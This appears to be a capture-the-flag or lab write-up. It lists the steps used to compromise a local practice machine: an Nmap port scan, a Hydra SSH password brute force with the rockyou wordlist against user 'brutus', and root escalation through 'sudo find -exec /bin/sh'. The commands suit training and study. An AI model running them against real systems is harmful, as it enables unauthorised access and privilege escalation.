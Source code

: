 ## Engagement steps
1. Port Scanning with Nmap and find ssh on 22
2. Hydra SSH Brute force password using rockyou.txt
3. Privilege escalation with `sudo find` to root


## Solution
Nmap port scan:
```sh
sudo nmap -sS -sC -p- 127.0.0.1 -vv
```

Crack password:
```sh
hydra -l brutus -P /usr/share/wordlists/rockyou.txt 127.0.0.1 ssh
```

Privileges escalation:
```sh
sudo find . -exec /bin/sh \; -quit
```
